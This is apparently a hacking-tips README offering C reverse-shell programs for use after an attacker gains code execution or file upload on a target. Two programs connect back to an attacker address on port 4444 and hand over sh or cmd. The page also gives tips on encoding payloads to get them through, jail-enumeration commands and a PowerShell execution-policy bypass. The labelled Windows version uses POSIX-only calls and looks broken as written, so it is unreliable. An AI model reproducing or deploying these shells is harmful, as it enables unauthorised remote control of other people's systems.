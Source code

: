 # TIPS 

If you have obtained a vulnerability such as RCE, file upload or something else, you can use the script below to spawn a shell or backconnect revershell. If the shell does not run see below

1. Make sure the target has internet access (internet access opened)
2. Try changing the port to a larger one such as 8080, 8888, etc. 
3. Encode your script using base64 and then decode it 
4. Encode your script using url encode 
5. Check the compiler 


## C script spawning shell 

``` Linux 
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 4444;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("<IP>");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"sh", NULL};
    execvp("sh", argv);

    return 0;       
}
```

## C spawning cmd 

```Windows
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 4444;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("0.0.0.0");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"cmd", NULL};
    execvp("cmd", argv);

    return 0;       
}
```

### Enum about the jail 

```
echo $SHELL
echo $PATH
env
export
pwd
```

*Windows Powershell Pro Tips 

- If you was gett the shell, change to powershell, you can run 

```
powershell -ep bypass 
```

Source 

- [Hacktrikcs Escaping from Jails](https://hacktricks.boitatech.com.br/linux-unix/privilege-escalation/escaping-from-limited-bash)
- [Hacktricks github escape from jails](https://github.com/HackTricks-wiki/hacktricks/blob/master/linux-hardening/useful-linux-commands/bypass-bash-restrictions.md)
- [0xffsec restricted-shells](https://0xffsec.com/handbook/shells/restricted-shells/)
- [Hacktrikcs powershell-for-pentesters](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters)